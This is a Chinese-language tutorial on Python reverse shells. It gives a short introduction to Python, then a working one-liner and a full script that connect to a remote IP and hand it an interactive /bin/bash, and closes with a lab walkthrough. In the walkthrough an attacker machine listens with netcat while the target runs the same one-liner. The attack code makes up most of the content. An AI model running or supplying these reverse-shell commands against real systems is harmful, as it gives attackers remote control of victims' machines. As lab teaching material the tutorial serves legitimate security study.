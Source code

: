 # **Python** 反弹**Shell**  

## **Python**介绍                                       [ ](af://n3)

Python由荷兰数学和计算机科学研究学会的吉多·范罗苏姆于1990年代初设计， 作为一门叫做ABC语言的替代品。 Python提供了高效的高级数据结构， 还能简单有效地面向对象编程。 Python语法和动态类型， 以及解释型语言的 本质， 使它成为多数平台上写脚本和快速开发应用的编程语言，  随着版本的不断更新和语言新功能的添加， 逐渐被 用于独立的、大型项目的开发。

## **Python**反弹**Shell**介绍                                [ ](af://n6)

### python 2

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.21.80.99",8888));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

```
import socket
import subprocess
import os

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("172.21.80.99", 8888))
os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)
p = subprocess.call(["/bin/bash", "-i"])
```

## 实验介绍                                          [ ](af://n10)

![img](https://image.201068.xyz/assets/clip_image001-168398344834972.jpg)

 

| 机器名称 | 机器**IP**              |
| -------- | ----------------------- |
| 攻击机器 | 192.168.3.27 (Windows)  |
| 实验靶机 | 192.168.41.135 ( Linux) |

## 实验复现                                          [ ](af://n23)

### 1、攻击机器使用nc执行监听命令

```
  nc -lvvp  1111 监听  TCP  
```

![img](https://image.201068.xyz/assets/clip_image003-168398344834973.gif)

### 2、实验靶机执行连接命令

```
python -c 'import
socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.16
8.3.27",1111));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

![img](https://image.201068.xyz/assets/clip_image004.jpg)

### 3、查看结果

![img](https://image.201068.xyz/assets/clip_image005.jpg)